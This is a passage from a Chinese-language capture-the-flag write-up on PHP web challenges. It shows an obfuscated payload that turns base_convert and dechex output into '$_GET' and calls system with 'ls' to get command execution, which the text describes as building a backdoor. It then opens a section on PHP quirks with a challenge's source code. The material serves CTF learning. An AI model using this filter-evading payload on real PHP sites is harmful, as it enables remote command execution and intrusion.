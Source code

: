![image-20240429122826369](image/image-20240429122826369.png)

![image-20240429122834302](image/image-20240429122834302.png)

![image-20240429122841095](image/image-20240429122841095.png)

这样我们就可以简单构造一下

```
base_convert(37907361743, 10, 36)(dechex(1598506324));

37907361743转换为36进制为hex2bin

dechex(1598506324)的结果是5f474554
hex2bin(5f474554)为_GET

进行赋值
$pi = base_convert(37907361743, 10, 36)(dechex(1598506324));
$$pi就为$_GET

$pi=base_convert(37907361743,10,36)(dechex(1598506324));
$$pi{abs}($$pi{acos});//$_GET[abs]($_GET[acos])就相当于构建一个后门
&abs=system&acos=ls
```

最后的payload

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=ls
```

![image-20240429125338087](image/image-20240429125338087.png)

cat一下得到flag

![image-20240429125418817](image/image-20240429125418817.png)

---

## 四、php特性

主要考察对php函数的理解

### web89

```php

include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```
